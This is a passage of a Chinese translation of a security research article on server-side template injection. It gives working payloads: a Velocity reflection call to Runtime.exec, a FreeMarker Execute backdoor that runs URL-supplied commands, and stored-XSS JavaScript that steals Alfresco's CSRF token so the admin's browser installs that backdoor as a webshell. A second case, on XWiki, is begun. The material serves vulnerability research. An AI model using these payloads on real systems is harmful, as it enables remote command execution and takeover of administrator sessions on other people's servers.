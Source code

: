 不得不说原文作者的方法有点麻烦，而且这种方式只能用在`Velocity Tool`中，不能用在`Velocity Engine`中，其实这个直接用反射就可以，代码如下：

```
#set ($exp = "exp")
$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")

```

0x02 两个案例
=========

* * *

案例1:Alfresco
------------

Alfresco 是一个CMS系统。低权限用户可以借助一个存储XSS漏洞，利用FreeMarker模板注入方式获取WebShell。前面创建的FreeMarker后门可以直接使用，但是我把它扩展成了用请求参数作为命令的形式：

```
<#assign ex="freemarker.template.utility.Execute"?new()>
${ ex(url.getArgs())}

```

低权限用户没有权限编辑模板，但是可以通过存储XSS利用管理员账户来安装这个后门。我编写了下面的JavaScript代码来完成这种攻击：

```
tok = /Alfresco-CSRFToken=([^;]*)/.exec(document.cookie)[1]; 
tok = decodeURIComponent(tok) do_csrf=new XMLHttpRequest(); do_csrf.open("POST","http://"+document.domain+":8080/share/proxy/alfresco/api/node/workspace /SpacesStore/59d3cbdc-70cb-419e-a325-759a4c307304/formprocessor",false); do_csrf.setRequestHeader('Content-Type','application/json; charset=UTF-8'); do_csrf.setRequestHeader('Alfresco-CSRFToken',tok); do_csrf.send('{"prop_cm_name":"folder.get.html.ftl","prop_cm_content":"&lgt;#assign ex=\\"freemarker.template.utility.Execute\\"?new()> ${ ex(url.getArgs())}","prop_cm_description":""}');

```

模板的GUID是有差别的，但是低权限的用户也可以很容易的通过“数据字典”获得。此外和其他应用的管理员可以控制整个web服务器不同，alfresco系统管理员可以做的操作是有严格限制的。

![pic10](http://drops.javaweb.org/uploads/images/3a3418191538d45fdeaec9d18fa878bcd584c913.jpg)

案例2:XWiki Enterprise
--------------------

XWiki Enterprise是一个专业wiki程序。在默认配置情况下，匿名的用户可以注册用户并且编辑wiki页面时可以嵌入Velocity模板代码。这种特性让它成为了模板注入的理想目标。然而，前面创建的Velocity payload是不能用的，原因是$class在这里是不能使用的。

XWiki对于Velocity是这样说的：

![pic11](http://drops.javaweb.org/uploads/images/df6ffa910048637b6036a79b01c12e6a4aa2e9e8.jpg)

对应翻译：

XWiki沙盒通过提供安全的对象访问，并且每个API调用都会检测权限，禁止对未授权的资源进行操作，所以不需要特别的权限控制。其他脚本语言需要脚本语言编写人有权限执行他们，但是除此之外，访问的是服务器上的所有资源。  
…… 没有权限就不能实例化对象，只能使用文字和XWiki APIs提供的安全的资源。如果按照XWiki提供的正确方式，XWiki可以安全的开发出大量的应用来。  
…… 浏览包含脚本的页面是不需要拥有Programming权限的，只有在保存的时候需要。 http://platform.xwiki.org/xwiki/bin/view/DevGuide/Scripting
